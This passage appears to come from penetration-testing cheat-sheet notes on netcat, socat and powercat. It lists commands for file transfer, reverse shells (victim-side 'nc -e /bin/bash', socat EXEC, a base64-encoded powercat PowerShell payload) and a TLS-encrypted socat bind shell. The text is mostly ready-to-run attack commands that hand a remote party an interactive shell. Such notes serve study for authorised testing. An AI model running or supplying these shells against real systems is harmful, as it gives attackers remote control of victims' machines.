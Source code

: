 - File transfer:
    - Sender (Server):
        
        ```bash
        nc -nlvp $PORT > $FILE
        socat TCP4-LISTEN:$PORT,fork file:$FILE
        powercat -c $IP -p $PORT -i $FILE
        ```
        
    - Receiver (client):
        
        ```bash
        nc -nv $IP $PORT < $FILE
        socat TCP4:$IP:$PORT file:$FILE,create
        ```
        
- Reverse shell:
    
    ```bash
    # Victim
    nc $IP $PORT -e /bin/bash
    socat TCP4:$IP:$PORT EXEC:/bin/bash
    # Server
    # ... same as Listening for connections (Server)
    # PowerCat
    powercat -c $IP -p $PORT -e cmd.exe
    # Variation (Stand-Alone Base64 Payload)
    powercat -c $IP -p $PORT -e cmd.exe -ge > reverseshell.ps1
    powershell -E <BASE64_CONTENT>
    ```
    
- (Encrypted) Bind shell:
    - `socat`:
        
        ```bash
        # Generate a certificate
        openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 362 -out bind_shell.crt
        # Convert into a format socat will accept
        cat bind_shell.key bind_shell.crt > bind_shell.pem
        ```
        
        - Listener:
            
            ```bash
            socat OPENSSL-LISTEN:$PORT,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
            ```
            